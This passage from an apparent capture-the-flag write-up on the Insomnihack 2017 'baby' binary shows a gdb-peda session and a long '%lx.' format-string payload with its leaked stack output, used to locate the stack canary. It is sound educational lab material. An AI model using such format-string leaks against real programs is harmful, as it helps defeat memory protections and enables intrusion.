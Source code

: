 we can see here that there is a child process. We will switch to it, and set a breakpoint for `dofmt+0x7f`:
```
[New process 12865]

.	.	.

gdb-peda$ info inferiors
  Num  Description       Executable        
  1    <null>            /Hackery/insomnihack2017/baby/baby 
* 2    process 12865     /Hackery/insomnihack2017/baby/baby 
gdb-peda$ set inferior 2
gdb-peda$ c
Continuing.
```

Now we will execute a format string attack to see what we can see what we can leak from the stack. We will be using the format string `%lx`, which will leak 8 byte values off of the stack (since it is a `64` bit binary). I just used python to generate a string with 150 `%lx.`:

```
Your format > %lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.
7fffffffe0f0.7ffff7af4154.0.0.0.400000000.0.25900000000.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.a.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.8e5.7ffff7b99377.7fffffffe480.5af2827ced9c5d00.0.0.ffffffffffffff80.400.7ffff7dd1ee0.1.7ffff7fd8440.7ffff7ac7a5a.2.555555555f09.555555758260.7fffffffe480.7fffffffe478.0.ffffffb0.7fffffffe4d0.ffffffffffffffb0.555555759970.7ffff77de090.5af2827ced9c5d00.0.400.7fffffffe530.5555555552e7.7ffff7dd1ee0.8e.555555555e30.555555555255.8e.2.7fffffffe520.45555535c.2.5af2827ced9c5d00.7fffffffe530.5555555559cf.555555554ff0.455555f09.a32.5af2827ced9c5d00.7fffffffe590.555555555bf0.7fffffffe678.100f0b5ff.1.155555c75.
``` 

and when we hit the breakpoint in gdb, we can see what the stack canary is. We know that it is at `rbp-0x8` for two seperate reasons. First off, this is the typical place the stack canary is at because it is the last value before we hit `rbp`. The second, is that in IDA we can see that the stack canary is at `rbp-0x8`:

